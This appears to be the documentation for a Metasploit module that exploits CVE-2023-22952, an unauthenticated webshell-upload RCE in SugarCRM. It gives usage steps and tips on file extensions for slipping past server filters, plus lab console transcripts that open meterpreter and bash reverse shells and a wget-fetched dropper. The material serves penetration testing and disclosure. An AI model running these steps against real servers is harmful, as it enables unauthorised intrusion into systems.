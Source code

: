## Vulnerable Application

This module exploits a Remote Code Execution (RCE) vulnerability that has been identified in the SugarCRM application.
The vulnerability in sugarCRM could allows an unauthenticated attacker to upload a malicious `PNG` file with embedded PHP code
to the `/cache/images/` directory on the web server using the vulnerable endpoint `/index.php?module=EmailTemplates&action=AttachFiles`.
Once uploaded to the server, depending on server configuration, the attacker can access the malicious PNG file via HTTP or HTTPS,
thereby executing the malicious PHP code and gaining access to the system.

The RCE is unauthenticated because of a missing authentication check in the `loadUser()` method in `include/MVC/SugarApplication.php`.
After a failed login, the session does not get destroyed and hence the attacker can continue to send valid requests to the application.
See this [AttackerKB Article](https://attackerkb.com/topics/E486ui94II/cve-2023-22952) for more details.

Any user privileges can exploit this vulnerability and it results in access to the underlying operating system with the same privileges
under which the web services run (typically `www-data`).
SugarCRM 11.0 Professional, Enterprise, Ultimate, Sell and Serve versions `11.0.4` and below are affected. Fixed in release `11.0.5`
SugarCRM 12.0 Enterprise, Sell and Serve versions `12.0.1` and below are affected. Fixed in release `12.0.2`.

Installing a vulnerable test bed requires a Linux machine with the vulnerable SugarCRM software loaded.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6
`
## Verification Steps

1. `use exploit/multi/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are system(), passthru(), shell_exec() and exec() and it defaults to passthru().
This option is only avialable when the target selected is either the Unix Command or Linux Dropper.
For the native PHP target, by default the eval() function will be used for native PHP code execution.

## Scenarios

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - PHP Meterpreter session
```
msf6 > use exploit/multi/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/multi/http/sugarcrm_webshell_cve_2023_22952):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.


   When TARGET is not 0:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.100.180
[+] Deleted cXSbMSaTtcnn.phtml
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-02-15 14:11:23 +0000

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Meterpreter  : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - bash reverse shell
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - Linux Meterpreter session
```
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 2
target => 2
msf6 exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No `check` method.
